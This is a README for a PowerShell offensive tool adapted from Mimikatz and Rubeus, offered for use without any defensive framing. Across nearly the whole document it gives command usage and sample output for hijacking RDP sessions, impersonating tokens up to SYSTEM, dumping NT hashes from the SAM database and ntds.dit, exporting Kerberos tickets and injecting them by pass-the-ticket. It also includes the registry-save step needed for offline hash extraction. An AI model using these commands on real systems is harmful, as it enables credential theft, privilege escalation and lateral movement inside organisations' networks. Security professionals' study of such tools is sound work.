


# WolfCrack
PowerShell Tool to mainpulate windows security and kerberos abuse. This tool is adapted from [Mimikatz](https://github.com/gentilkiwi/mimikatz) project and from [Rubeus](https://github.com/GhostPack/Rubeus) project and also took some help from 
[nishang](https://github.com/samratashok/nishang) project.  
**each of this commands below can be run seperately from the modules directory**

# Table of Contents

- [WolfCrack](#wolfcrack)
  * [Table of Contents](#table-of-contents)
  * [Command Line Usage](#CommandLineUsage)
    + [ts](#ts)
      - [sessions](#sessions)
      - [remote](#remote)
    + [token](#token)
      - [whoami](#whoami)
      - [list](#list)
      - [elevate](#elevate)
      - [revert](#revert)
      - [cmd](#cmd)
    + [Privilege](#privilege)
    + [lsadump](#lsadump)
      - [sam](#sam)
      - [ntds](#ntds)
    + [kerberos](#kerberos)
      - [list](#list-1)
      - [ptt](#ptt)
      - [purge](#purge)
      - [klist](#klist)
    + [help](#help)
  * [Author Information](#author)
     
# Command Line Usage
```
          
        WolfCrack By Yuval Weber
        _
       / \      _-'
     _/|  \-''- _ /
__-' { |          \
    /             \
    /       "o.  |o }
    |            \ ;
                  ',
       \_         __\
         ''-_    \.//
           / '-____'
          /
        _'
      _-


WolfCrack # 
```
**You Must run powershell as admin in order to make some of the commands work**

## ts
This module is for manipulating rdp sessions.  
##### Features:
1) listing sessions  
2) rdp session hijacking.

### sessions
This command will show you all the available sessions on your server.
```
WolfCrack # ts::sessions

User: WEBER\Administrator
Session Name: RDP-Tcp#8
Session Id: 2

User: WEBER\ansible
Session Name: Console
Session Id: 1
```
As you can see we have 2 sessions, one is connected via rdp (Administrator) and the other one is connected via console (ansible)

### remote
this command will let you hijack the rdp sessions you can see in the listing above.  
it will get the session id of the remote session that you want to transfer to.
##### Arguments:
1) id (session of remote id) \[**required**\]
```
WolfCrack # ts::remote /id:1
```
**If the command succeeeded you will be transfered to the remote session.**

## token
this module is for manipulating token related stuffs.  
##### Features:
1) show your current token information.  
2) list all available tokens on the computer.  
3) elevating your token to a specific token you choose.  
4) reverting your token to your original one.  
5) running cmd as your elevated token.

### whoami
this command will show you your current token info.
```
WolfCrack # token::whoami

UserName: WEBER\Administrator
Sid: S-1-5-21-2285584810-4222754310-1381224282-500
```
**If you have impersonation token it will show it also in the info above**

### list
show current tokens on your server (this function loops over all the process on the server and show the unique tokens)
```
WolfCrack # token::list

User: WEBER\Administrator
Sid: S-1-5-21-2285584810-4222754310-1381224282-500
Type: Primary
Pid: 3908

User: NT AUTHORITY\SYSTEM
Sid: S-1-5-18
Type: Primary
Pid: 1220

User: WEBER\ansible
Sid: S-1-5-21-2285584810-4222754310-1381224282-1104
Type: Primary
Pid: 1572

User: Window Manager\DWM-3
Sid: S-1-5-90-3
Type: Primary
Pid: 284

User: Window Manager\DWM-2
Sid: S-1-5-90-2
Type: Primary
Pid: 2640

User: NT AUTHORITY\NETWORK SERVICE
Sid: S-1-5-20
Type: Primary
Pid: 2900

User: NT AUTHORITY\LOCAL SERVICE
Sid: S-1-5-19
Type: Primary
Pid: 304
```
Now you can impersonate to which token you choose from the list you get by using the ```WolfCrack # token::elevate /id:``` command.

### elevate
Lets you impersonate your token to one you choose from another process (if you didn't provide the /id: argument it will automatically impersonate to SYSTEM).
##### Arguments:
1) id (pid of process) \[**optional**\]
```
WolfCrack # token::elevate
[*] Successfuly impersonated

WolfCrack # token::whoami

UserName: NT AUTHORITY\SYSTEM
ImpersonationLevel: Impersonation
Sid: S-1-5-18
```
As you can see the default elevate command (without arguments) will impersonate you to be system)
```
WolfCrack # token::elevate /id:2900
[*] Successfuly impersonated

WolfCrack # token::whoami

UserName: NT AUTHORITY\NETWORK SERVICE
ImpersonationLevel: Impersonation
Sid: S-1-5-20
```
And as you can see it also works with the **id** argument (it receives the pid of the process) 

### revert
Lets you revert to your original token.
```
WolfCrack # token::revert
[*] Successfully reverted

WolfCrack # token::whoami

UserName: WEBER\Administrator
Sid: S-1-5-21-2285584810-4222754310-1381224282-500
```

### cmd
Lets you run cmd with your elevated token(if it has permission to do that).
```
WolfCrack # token::cmd
```


## Privilege
This module is for manipulating permissions related stuffs.
##### Features:
1) let you adjust your current token and add permissions to it.
```
WolfCrack # privilege::debug
[*] Privilege '20' OK

WolfCrack # privilege::backup
[*] Privilege '17' OK

WolfCrack # privilege::restore
[*] Privilege '18' OK
```
As you can see you can adjust your token and add privileges you may need. (possible options are: tcb, security, driver, backup, restore, debug, system)

## lsadump
This module is for retriving hashes from the current sam database or from an ntds file.
##### Features:
1) let you retrieve hashes from the current sam database.  
2) let you retrieve hashes from ntds.dit file.

### sam
Retrieve the hashes (nt and lm hash) of the users on the current server you are on (works with every windows version).
```
WolfCrack # lsadump::sam
[*] Successfuly impersonated

Domain:  WEBERDC

SysKey:  bb5050ffa20b87e9d488f5c9d5c5b6b7

SamKey:  0cd8ea15be5af089996d3e48491d0ede4d3b253b931409565c576eb1e79bec32

UserName: Administrator
Rid: 500
LmHash: 
NtHash: 7bb16b7c77a30c947ac16a79f0b8a111

UserName: Guest
Rid: 501
LmHash: 
NtHash: 
[*] Successfully reverted
```
As you can see now we have the nt hash(also known as ntlm hash) of the **Administrator** user.

### ntds
Retrieve the hashes (nt and lm hash) of the users saved on the current ntds.dit file. (works with every windows server version)
##### Arguments:
1) ntds (path to the ntds.dit file) \[**required**\]  
2) system (path to the system hive file of the server the ntds.dit file is from) \[**required**\]   
in order for this to work you need to get the files like that:  
1) the ntds.dit file get however you want, but if it fails you will need to repair it with the following command ``` esentutl /p <path_to_ntds_file> ```  
2) the system hive you **must** get with the following command ``` reg save HKLM\SYSTEM System.hiv ```  
```
WolfCrack # lsadump::ntds /ntds:"C:\Users\yuval_000\Desktop\ntds.dit" /system:"C:\Users\yuval_000\Desktop\SYSTEM"

UserName: Administrator
Rid: 500
NtlmHash: 7bb16b7c77a30c947ac16a79f0b8a111

UserName: WEBERDC
Rid: 1001
NtlmHash: 7bb16b7c77a30c947ac16a79f0b8a111

UserName: krbtgt
Rid: 502
NtlmHash: 7bb16b7c77a30c947ac16a79f0b8a111

UserName: ansible admin
Rid: 1104
NtlmHash: 7bb16b7c77a30c947ac16a79f0b8a111

UserName: KALI
Rid: 1105
NtlmHash: 7bb16b7c77a30c947ac16a79f0b8a111

UserName: ubuntu
Rid: 1149
NtlmHash: 7bb16b7c77a30c947ac16a79f0b8a111

UserName: yuval weber
Rid: 1152
NtlmHash: 7bb16b7c77a30c947ac16a79f0b8a111

UserName: WEBWEB
Rid: 1153
NtlmHash: 7bb16b7c77a30c947ac16a79f0b8a111

UserName: het dsa
Rid: 1154
NtlmHash: 7bb16b7c77a30c947ac16a79f0b8a111
```
**The hashes above was censored for privacy reasons.**

## kerberos
This module is for manipulating kerberos related stuffs.
##### Features:
1) show the tickets of all the users on the current server (include computer account) and export them to file if the argument is specified.
2) pass the ticket (using another people ticket and inject it to your own session).
3) purging your own tickets.
4) showing your current tickets.

### list
lists all the kerberos tickets of users (and computer account) on the server anf if specified also export them to files.
##### Arguments:
1) export \[**optional**\]
```
WolfCrack # kerberos::list
[*] Successfuly impersonated
--------------------------------------------------------------------------------------
----------------------------


UserName              : WEBERDC$
Domain                : WEBER
LogonId               : 0x2c068
UserSid               : S-1-5-18
AuthenticationPackage : Kerberos
LogonType             : Batch
LogonTime             : 10/30/2020 2:58:45 AM
LogonServerDnsDomain  : WEBER.COM
UserPrincipalName     : 

[*]Enumerated  1 tickets

    Service Name       :  ldap/weberdc.WEBER.COM
    EncryptionType     :  AES256_CTS_HMAC_SHA1_96
    Start/End/MaxRenew :  10/30/2020 2:58:29 AM ; 10/30/2020 12:58:28 PM ; 12/31/1600 4:00:00 PM
    Server Name        :  weberdc.WEBER.COM @ WEBER.COM
    Client Name        :  WEBERDC$ @ WEBER.COM
    Flags              :  name_canonicalize, ok_as_delegate, pre_authent, renewable, forwardable
--------------------------------------------------------------------------------------
------------------------------------------


--------------------------------------------------------------------------------------
----------------------------
UserName              : WEBERDC$
Domain                : WEBER
LogonId               : 0x2c024
UserSid               : S-1-5-18
AuthenticationPackage : Kerberos
LogonType             : Batch
LogonTime             : 10/30/2020 2:58:45 AM
LogonServerDnsDomain  : WEBER.COM
UserPrincipalName     : 

[*]Enumerated  1 tickets

    Service Name       :  ldap/weberdc.WEBER.COM
    EncryptionType     :  AES256_CTS_HMAC_SHA1_96
    Start/End/MaxRenew :  10/30/2020 2:58:29 AM ; 10/30/2020 12:58:28 PM ; 12/31/1600 4:00:00 PM
    Server Name        :  weberdc.WEBER.COM @ WEBER.COM
    Client Name        :  WEBERDC$ @ WEBER.COM
    Flags              :  name_canonicalize, ok_as_delegate, pre_authent, renewable, forwardable
--------------------------------------------------------------------------------------
------------------------------------------
```
As you can see it shows info about the user, and the tickets the user has in his session.
**If you specify the /export flag then the tickets will be saved in your desktop in a folder called tickets**
```
WolfCrack # kerberos::list /export
```


The tickets name is in the following format: username@service-domainName.kirbi
  
### ptt
This feature lets you take a kirbi file (ticket file) and inject it to your own session.
##### Arguments:
1) path to the kirbi file \[**required**\]
```
WolfCrack # kerberos::ptt "C:\Users\Administrator\Desktop\Tickets\WEBERDC$@DNS-WEBER.COM.kirbi"
[*] Successfuly impersonated
[*] Successfully Imported The Ticket
[*] Successfully reverted

WolfCrack # kerberos::klist

Current LogonId is 0:0x48d1f

Cached Tickets: (1)

#0>	Client: WEBERDC$ @ WEBER.COM
	Server: DNS/weberdc.weber.com @ WEBER.COM
	KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
	Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize 
	Start Time: 10/30/2020 3:58:51 (local)
	End Time:   10/30/2020 12:58:51 (local)
	Renew Time: 11/6/2020 2:58:51 (local)
	Session Key Type: AES-256-CTS-HMAC-SHA1-96
	Cache Flags: 0 
	Kdc Called: 

WolfCrack # 
```
As you can see it takes the ticket inside the kirbi file and inject it to our current session.

### purge
this feature lets you clear all your kerberos tickets of your current session.
```
WolfCrack # kerberos::purge
[*] Successfuly impersonated
[*] Tickets Successfully Purged!!
[*] Successfully reverted

WolfCrack # kerberos::klist

Current LogonId is 0:0x48d1f

Cached Tickets: (0)
```
As you can see now we have 0 tickets in our session.

### klist
this just run the windows command klist, I did this because it was not comfortable to see your own ticket with the ``` WolfCrack # kerberos::list ``` command because it has many tickets of many users.
```
WolfCrack # kerberos::klist

Current LogonId is 0:0x48d1f

Cached Tickets: (1)

#0>	Client: ansible @ WEBER.COM
	Server: krbtgt/WEBER.COM @ WEBER.COM
	KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
	Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize 
	Start Time: 10/30/2020 3:26:18 (local)
	End Time:   10/30/2020 13:26:18 (local)
	Renew Time: 11/6/2020 3:26:18 (local)
	Session Key Type: AES-256-CTS-HMAC-SHA1-96
	Cache Flags: 0x1 -> PRIMARY 
	Kdc Called: 
```
As you can see it hash your ticket (like running klist).

## help
This is the last module.  
It has information about all the modules and many examples so you could understand how to work with the tool.
##### Arguments:
1) name of the module.
```
WolfCrack # help::privilege
```
This is just an example how to run it in order to get the help you need.

# Author Information
**Yuval Weber, DevOps Engineer**  
**mail: yuval199985@gmail.com**
